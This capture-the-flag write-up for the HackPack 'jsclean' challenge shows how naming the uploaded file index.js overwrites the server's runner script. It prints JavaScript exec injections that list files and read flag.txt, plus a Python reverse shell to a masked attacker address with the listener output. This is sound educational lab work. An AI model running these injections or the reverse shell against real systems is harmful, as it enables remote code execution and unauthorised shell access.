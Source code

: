 ```yaml
---
title: "HackPack: jsclean"
categories:
  - HackPack
tags:
  - HackPack
---
```



We're given a python script as reference, and an address to connect to:

```
import os
import sys
import subprocess


def main(argv):
    print("Welcome To JavaScript Cleaner")
    js_name = input("Enter Js File Name To Clean: ")
    code = input("Submit valid JavaScript Code: ")

    js_name = os.path.basename(js_name) # No Directory Traversal for you

    if not ".js" in js_name:
        print("No a Js File")
        return

    with open(js_name,'w') as fin:
        fin.write(code)

    p = subprocess.run(['/usr/bin/node','index.js','-f',js_name],stdout=subprocess.PIPE);
    print(p.stdout.decode('utf-8'))

main(sys.argv)
```

We can see that the script accepts a name for a .js script, as well as code for the script. It validates that .js is in the file name, and then dumps the code into the file. Then, it runs an "index.js" file using node, with the parameter -f (our file name). It's not clear what -f does, but we can infer that this is what's printing out our code in a readable format.

While testing this script, I noticed that it only accepts a one-liner, and any code that isn't on the first line is discarded.

It's also important to note that there are no restrictions to what we can name the file. You may have noticed, but if we name our file index.js, it's going to open the pre-existing file, dump our code into it, then execute it!

```
nc cha.hackpack.club 41718

Welcome To JavaScript Cleaner
Enter Js File Name To Clean: index.js
Submit valid JavaScript Code: const { exec } = require("child_process"); exec("ls -la", (error, stdout, stderr) => { if (error) { console.log(`error: ${error.message}`); return; } if (stderr) { console.log(`stderr: ${stderr}`); return; } console.log(`stdout: ${stdout}`); });
stdout: total 60
drwxr-xr-x 1 jsclean jsclean  4096 Apr 13 19:24 .
drwxr-xr-x 1 root    root     4096 Apr 13 19:24 ..
-rw-r--r-- 1 jsclean jsclean   220 May 15  2017 .bash_logout
-rw-r--r-- 1 jsclean jsclean  3526 May 15  2017 .bashrc
-rw-r--r-- 1 jsclean jsclean   675 May 15  2017 .profile
-rw-rw-r-- 1 jsclean jsclean    26 Apr 13 19:17 flag.txt
-rw-rw-r-- 1 jsclean jsclean   245 Apr 24 20:59 index.js
-rw-rw-r-- 1 jsclean jsclean   562 Apr 13 19:17 jsclean.py
drwxr-xr-x 1 jsclean jsclean  4096 Apr 13 19:24 node_modules
-rw-r--r-- 1 jsclean jsclean 11370 Apr 13 19:24 package-lock.json
-rw-rw-r-- 1 jsclean jsclean   311 Apr 13 19:17 package.json
```

We can see that flag.txt exists, so we'll run a "cat flag.txt" command to grab it:

```
nc cha.hackpack.club 41718

Welcome To JavaScript Cleaner
Enter Js File Name To Clean: index.js
Submit valid JavaScript Code: const { exec } = require("child_process"); exec("cat flag.txt", (error, stdout, stderr) => { if (error) { console.log(`error: ${error.message}`); return; } if (stderr) { console.log(`stderr: ${stderr}`); return; } console.log(`stdout: ${stdout}`); });
stdout: flag{Js_N3v3R_FuN_2_Re4d}
```

Voila, there's our flag!

**flag{Js_N3v3R_FuN_2_Re4d}**

Just for fun, we can return a reverse shell to ourselves using pentestmonkey's python reverse shell (since we know python is installed on the system):

```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"xx.xxx.xxx.xx\",80));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"]);'
```

Full code to inject:

```
const { exec } = require("child_process"); exec("python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"xx.xxx.xxx.xx\",80));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"]);'", (error, stdout, stderr) => { if (error) { console.log(`error: ${error.message}`); return; } if (stderr) { console.log(`stderr: ${stderr}`); return; } console.log(`stdout: ${stdout}`); });
```

```
Listening on [0.0.0.0] (family 0, port 80)
Connection from 152.14.93.208 15270 received!
/bin/sh: 0: can't access tty; job control turned off
$ whoami
jsclean
$ 
```
